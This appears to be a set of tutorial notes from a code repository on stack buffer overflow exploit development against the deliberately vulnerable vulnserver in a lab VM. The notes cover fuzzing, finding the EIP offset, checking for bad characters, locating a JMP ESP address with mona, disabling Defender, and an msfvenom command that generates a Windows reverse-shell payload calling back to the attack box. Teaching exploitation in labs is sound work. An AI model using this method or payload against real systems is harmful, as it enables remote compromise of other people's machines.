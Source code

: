 Intro to Exploit Development (Buffer Overflows)

1. Pre-req installs
	*	Windows 10 VM as victim
		*	google "windows evaluation"
	*	on victim, install "vulnserver" (the grey corner)
	* on victim, immunity debugger
		* python 2.7
2. Buffer Overflows explained
	* Anatomy of memory
		* kernel (bunch of ones) [top]
		* Stack
			* ESP (extended stack pointer) [top]
			* buffer space
				* buffer should only fill to the EBP. and overflow allows this to fill past the EBP, into the EIP
				* This allows us to control the pointer, running any code in memory
			* EBP (extended base pointer) [bottom]
			* EIP (Extended Instruction pointer/return address)
		* heap
		* data
		* text (bunch of zeros) [bottom]
	* Steps to do:
		* spiking - finding the vulnerable part
		* fuzzing - testing vuln: can we break it, and where
		* finding the offset - the where we broke it
		* overwrite the EIP - flood it
		* find our bad characters - housekeeping
		* finding the right module - housekeeping
		* generate shellcode - point eip to code
		* root! - et viola!
3. Spiking
	* first, disable defender on vic
	* then start vuln server as admin
	* then start immunity as admin
	* in immunity, click file -> attach
		* find vulnserver, click attach
		* click start
	* on attack box:
		* nc -nv vuln-ip 9999
	 	*  HELP command
	 
	* Spike the available commands
		*  generic send tcp cmd
		*  create spike file:
			*  s_readline;
			*  s_string("*command* ");
			* s_string_variable("0");
		 
		*  send it!
			*  immunity pauses, shows we overwrote all of memory (41 is ascii for A)
4. fuzzing
	* need a script (on kali as "1fuzz.py")
	* ship it while watching immunity. ctrl c the script when you catch it
	* take byte value from script, round up to closest 1000

5. finding the offset
	* pattern_create.rb (metasploit)
	* use switch -l *byte value*
	* copy value to 2fuzz.py (copy of1fuzz...mostly)
	* reset immunity and vulnserver if needed
	* send it!
	* find the EIP where it crashed in immunity
	* use pattern_offset.rb this time, switches -l 3000 -q *EIP value*
		* match found where? (2003 bytes) this is where we can control!

6. overwriting the EIP
- we have 4 bytes to overwrite (2003+EIP)
- check 3fuzz comments. this should show 42424242 in immunity

7. finding the bad characters
  * cytopia badchars in github
  * python list is in code folder with scripts
  * swap comments in 3fuzz
  * reset immunity and vulnserver if required
  * send it!
  * r click esp value, slect "follow in hex"
  * look for value out of place (ie: 01 02 03 B0 B0 06 07...the B0 is out.). Find this everywhere and it will show you what values you cant use in your shellcode
	  * just worry about the first when you see pairs (so 05 is fine above)
	  * but, you can err on caution and remove them anyway...
	  * none in vulnserver

8. finding the right module
	* we need to find a place with no protections. enter mona modules
		* copy the py file to the immunity pycommands folder
	* look for somehting attached to vulnserver that is all false (essfunc.dll is first for us)
	* find opcod equiv of JMP (msf-nasmshell) on attack box
		* in nasm, JMP ESP (returns FFE4)
	* back in immunity, run mona find -s "\xff\xe4" -m essfunc.dll. this gives return addresses
		* add this to script (4fuzz.py)
	* click "Go to address in dissassembler", enter our memory value (625011af)
	* run it as test. it should break and eip should be out 625011af
  
9. generating shellcode and getting root
	* msfvenom to create payload
		* msfvenom -p windows/shell_reverse_tcp LHOST=*attackbox IP* LPORT=*listening port* EXITFUNC=thread -f c -a x86 -b "\x00"
	* pay attention to payload size!
	* copy buffer into 5fuzz
	* start a listener (nc)
	* turn off immunity, restart vulnserver
	* ship it!